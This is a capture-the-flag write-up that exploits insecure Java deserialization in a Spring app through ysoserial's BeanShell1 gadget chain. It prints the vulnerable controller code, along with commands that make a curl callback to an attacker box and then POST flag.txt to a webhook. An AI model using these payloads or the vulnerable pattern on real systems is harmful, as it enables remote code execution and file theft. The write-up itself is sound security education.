 # Idiotic
tl;dr 
- Insecure Java Deserialization to RCE

## Enumeration
Given a Java web challenge, the first thing to do is to analyze the dockerfile configuration. As we can see here on entry point the enableUnsafeSerialization is being set into true.
```
FROM maven:3.8.8-eclipse-temurin-17 AS build

WORKDIR /app

COPY ./app/pom.xml ./
RUN mvn dependency:go-offline

COPY ./app/src ./src
RUN mvn clean package -DskipTests
#ENTRYPOINT [ "/bin/sh" ]

FROM eclipse-temurin:17-jdk

WORKDIR /app

COPY --from=build /app/target/iot-0.0.1-SNAPSHOT.jar ./iot.jar
COPY flag.txt ./flag.txt

EXPOSE 8080

ENTRYPOINT ["java", "-Dorg.apache.commons.collections.enableUnsafeSerialization=true", "-jar", "iot.jar"]
```
On DeviceController.java, we can see the `/upload` endpoint will receive a base64 data that will be deserialized.
```java
DeviceController.java

@PostMapping("/upload")
    public ResponseEntity<?> uploadDevice(@RequestBody Map<String, String> payload) {
        try {
            String base64Data = payload.get("file");
            if (base64Data == null || base64Data.isEmpty()) {
                System.out.println("ERROR: Upload request missing 'file' field.");
                throw new IllegalArgumentException("Missing 'file' in request payload");
            }

            System.out.println("INFO: Starting deserialization process.");

            byte[] binaryData = Base64.getDecoder().decode(base64Data);
            System.out.println("DEBUG: Base64 decoded data length: " + binaryData.length);

            Device device = deserializeDevice(binaryData);

            System.out.println("DEBUG: Deserialized device object - " + device);

            deviceRepository.save(device);

            System.out.println(
                    "INFO: Device '" + device.getName() + "' with ID '" + device.getId() + "' successfully added.");
            return ResponseEntity.ok(Map.of("message", "Device added successfully"));
        } catch (Exception e) {
            System.out.println("ERROR: Failed to deserialize device - " + e.getMessage());
            e.printStackTrace();
            return ResponseEntity.status(HttpStatus.BAD_REQUEST)
                    .body(Map.of("error", "Failed to deserialize device: " + e.getMessage()));
        }
    }
```

This is the deserializeDevice function that will deserialize our uploaded device.
```java

  private Device deserializeDevice(byte[] data) throws Exception {
        try (ByteArrayInputStream bis = new ByteArrayInputStream(data);
                ObjectInputStream ois = new ObjectInputStream(bis)) {

            System.out.println("INFO: Starting vulnerable deserialization process.");
            Object deserializedObject = ois.readObject();

            if (deserializedObject instanceof Device) {
                Device device = (Device) deserializedObject;
                System.out.println("DEBUG: Successfully deserialized Device object.");
                System.out.println("DEBUG: Device details - ID: " + device.getId() +
                        ", Name: " + device.getName() +
                        ", Type: " + device.getType() +
                        ", Status: " + device.isStatus());
                return device;
            } else {
                System.out.println("ERROR: Deserialized object is not a Device.");
                throw new IllegalArgumentException("Invalid object type: " + deserializedObject.getClass().getName());
            }
        } catch (Exception e) {
            System.out.println("ERROR: Deserialization failed - " + e.getMessage());
            e.printStackTrace();
            throw e;
        }
    }
```
But, we don't know yet what is the dependencies that will perform the deserialization process. For that, we can refer to the `pom.xml` file and we got the dependencies which is BeanShell.
```xml
[snipped].....
    <dependency>
            <groupId>com.h2database</groupId>
            <artifactId>h2</artifactId>
            <scope>runtime</scope>
        </dependency>
        <dependency>
            <groupId>org.projectlombok</groupId>
            <artifactId>lombok</artifactId>
            <version>1.18.28</version>
            <scope>provided</scope>
        </dependency>
        <dependency>
            <groupId>org.beanshell</groupId>
            <artifactId>bsh</artifactId>
            <version>2.0b5</version>
        </dependency>
    </dependencies>
```

## Exploitation
By using ysoserial.jar [github](https://github.com/frohoff/ysoserial) we could generate malicious BeanShell objects for RCE.
First thing, we try to perform a curl to our attack box.
```
/usr/lib/jvm/java-1.11.0-openjdk-amd64/bin/java -jar ysoserial-all.jar BeanShell1 'curl http://192.168.3.1' > upload.b64
```

After generating the payload, we can upload the file to the dashboard.
![image](https://github.com/user-attachments/assets/5b49f95d-b9f3-4511-92cf-e03241e9b2c3)

And the payload is executed successfully!
![image](https://github.com/user-attachments/assets/008a589b-be19-4d78-b570-9af4625cdc7c)

```
⚡ root@kali~ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.3.2 - - [20/Mar/2025 19:40:10] "GET / HTTP/1.1" 200 -
```

Time to change our payload to read the flag. *kudos to abejads for this flag reading method ☕
```
/usr/lib/jvm/java-1.11.0-openjdk-amd64/bin/java -jar ysoserial-all.jar BeanShell1 'curl -X POST -F 'file=@flag.txt' your_webhook_url_here' > upload.b64
```

![image](https://github.com/user-attachments/assets/16d2f06f-b36c-4af2-ab15-c48457ebe1b0)

